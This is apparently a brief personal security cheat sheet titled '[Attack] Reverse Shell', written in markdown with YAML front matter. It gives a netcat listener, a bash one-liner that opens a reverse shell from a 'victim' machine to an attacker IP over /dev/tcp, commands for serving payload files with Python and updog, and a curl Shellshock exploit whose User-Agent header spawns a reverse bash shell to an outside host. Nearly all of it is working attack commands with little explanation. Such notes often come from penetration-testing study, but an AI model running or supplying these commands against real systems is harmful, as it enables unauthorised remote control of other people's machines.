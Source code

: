 ```yaml
---
title: "[Attack] Reverse Shell "
published: 2024-04-12
description: 'Basic reverse shell rundown for taking control'
tags: [Security, Attack]
category: Attack
draft: false
---
```


# [Attack] Reverse Shell 

https://www.revshells.com/

## usage

Listener (Your own machine):  
```bash
nc -lvnp 8081
```

Reverse (Victims):  
- `ip` : Your own machine.  
- `post`: Determine by your nc open port.    
```bash
sh -i >& /dev/tcp/192.168.49.54/8081 0>&1
```

## Web server feed

- With `python`
```bash
python3 -m http.server
python -m http.server 8123
```

- With `updog`
https://github.com/sc0tfree/updog
```bash
updog 
updog -p 1234
updog --ssl
```

## With `shellshock`  
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://192.168.86.150/cgi-bin/test/test.cgi
```